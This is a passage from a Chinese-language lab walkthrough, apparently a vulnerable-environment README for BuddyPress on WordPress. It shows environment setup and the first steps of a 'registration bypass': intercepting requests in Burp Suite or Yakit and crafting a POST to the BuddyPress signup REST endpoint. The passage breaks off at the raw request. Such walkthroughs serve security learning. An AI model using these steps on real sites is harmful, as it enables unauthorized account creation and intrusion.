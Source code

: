 3. 场景搭建&启动场景

4. 打开浏览器，访问场景地址
![1747897882478](image/readme/1747897882478.png)

### （二）注册绕过
1. **抓包注册请求**
   - 使用 Burp Suite 或 Yakit 抓包。
   ![1747897930858](image/readme/1747897930858.png)
   - 点击`send to repeater`，构造 POST 请求，发送到 `/wp-json/buddypress/v1/signup`。
   - 请求体如下：
     ```json
     {
       "user_login": "attacker1",
       "user_email": "attacker1@163.com",
       "user_name": "attacker1",
       "password": "attacker1"
     }
     ```
    - 最终构造的请求包：
        ```
        POST /wp-json/buddypress/v1/signup HTTP/1.1

